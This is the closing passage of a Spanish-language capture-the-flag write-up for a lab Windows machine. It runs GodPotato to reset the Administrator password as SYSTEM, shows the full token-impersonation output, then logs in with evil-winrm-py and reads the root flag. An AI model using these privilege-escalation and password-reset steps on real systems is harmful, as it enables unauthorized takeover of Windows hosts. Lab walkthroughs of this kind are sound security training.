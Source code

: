 ### Exploiting

Utilizaremos el parámetro `-cmd` para especificar lo que queremos que se ejecute, en este caso cambiamos la contraseña del usuario `Administrator` (no me funcionó una reverse shell)

~~~ bash
PS C:\Temp> .\GodPotato.exe -cmd 'net user Administrator Password123!'
[*] CombaseModule: 0x140727391879168
[*] DispatchTable: 0x140727394470216
[*] UseProtseqFunction: 0x140727393762112
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\1ecc5b22-040f-4692-a938-b10d00ed67dd\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00007402-064c-ffff-3f52-b9aaa9c74105
[*] DCOM obj OXID: 0x3626e949b69d0e8
[*] DCOM obj OID: 0xe9de6cdbb65ddcee
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 940 Token:0x408  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 528
The command completed successfully.
~~~


## Root Time

Ahora podremos conectarnos como el usuario `Administrator` proporcionando la contraseña que creamos

~~~ bash
evil-winrm-py -i 10.10.11.61 -u Administrator -p 'Password123!'    
        ▘▜      ▘             
    █▌▌▌▌▐ ▄▖▌▌▌▌▛▌▛▘▛▛▌▄▖▛▌▌▌
    ▙▖▚▘▌▐▖  ▚▚▘▌▌▌▌ ▌▌▌  ▙▌▙▌
                          ▌ ▄▌ v1.1.2
[*] Connecting to 10.10.11.61:5985 as Administrator
evil-winrm-py PS C:\Users\Administrator\Documents> whoami
haze\administrator
~~~

Ya podremos ver la última flag del sistema ubicada en la carpeta `C:\Users\Administrator\Desktop`

~~~ bash
evil-winrm-py PS C:\Users\Administrator\Documents> type ..\Desktop\root.txt
588...
~~~
<br>
Gracias por leer este artículo, espero te haya sido de ayuda. Te dejo la cita del día:

> Happiness is when what you think, what you say, and what you do are in harmony.
> — Mohandas Gandhi
{: .notice--info}
